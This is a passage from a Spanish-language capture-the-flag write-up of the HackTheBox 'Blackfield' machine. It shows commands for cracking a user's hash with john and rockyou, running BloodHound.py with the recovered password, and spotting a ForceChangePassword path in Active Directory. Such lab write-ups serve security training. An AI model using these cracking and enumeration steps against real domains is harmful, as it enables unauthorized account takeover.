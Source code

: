 ![4](img/4.png)

Se puede visualizar que nos regresa el hash del usuario **support** el cual procederemos a intentar obtener su password en texto plano con la herramienta **john**.

`sudo john support_hash.txt -wordlist=/usr/share/wordlists/rockyou.txt`

![5](img/5.png)

Utilizando [bloodhound.py](https://github.com/fox-it/BloodHound.py) recolectaremos información sobre el dominio.

Agregamos el nombre de dominio a nuestro archivo **/etc/hosts**, ya que es necesario para utilizar el script.

`10.10.10.192    dc01.blackfield.local`

Ejecutaremos bloodhound.

`python /opt/BloodHound.py/bloodhound.py -u support -p '#00^BlackKnight' -c ALL -d blackfield.local -dc dc01.blackfield.local --dns-tcp -ns 10.10.10.192`

![6](img/6.png)

Teniendo ya los archivos .json los abrimos con [bloodhound](https://github.com/BloodHoundAD/BloodHound). 

> Es necesario levantar el servido **neo4j** para utilizar bloodhound. Solo se arrastran los .json a la interfaz grafica de bloodhound. \
 `sudo neo4j console` \
 `bloodhound`

Si nos vamos a la opción **Outbound Object Control / First Degree Object Control** podemos ver que el usuario **support** pude desempeñar un ataque de **ForceChangePassword**.
